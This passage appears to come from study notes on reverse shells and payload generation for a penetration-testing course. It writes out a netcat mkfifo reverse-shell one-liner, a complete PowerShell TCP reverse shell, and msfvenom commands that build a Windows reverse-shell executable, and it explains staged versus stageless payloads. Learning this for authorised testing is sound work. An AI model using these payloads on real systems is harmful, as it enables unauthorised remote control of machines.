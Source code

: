 ![[Pasted image 20240818163208.png]]


A very similar command can be used to send a netcat reverse shell:

	`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![[Pasted image 20240818163443.png]]


When targeting a modern version of Windows Server, we can use the following Powershell reverse shell:
	`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

In order to use this, we need to replace `<IP>` and `<port>` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:
![[Pasted image 20240818163651.png]]

## **Metasploit - msfvenom**
Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`).

The standard syntax for msfvenom is as follows:

	`msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

	`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

![[Pasted image 20240818165141.png]]

Here we are using a payload and four options:
- **-f** `<format>`  Specifies the output format. In this case that is an executable (exe)
- **-o** `<file>` The output location and filename for the generated payload.
- **LHOST=**`<IP>` Local host, specify the machine connect back to.
- **LPORT=**`<port>` The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn’t already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

### _Staged vs Stageless_

- _**Staged**_ payloads are sent in two parts. The first part is called the _stager_. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.  
    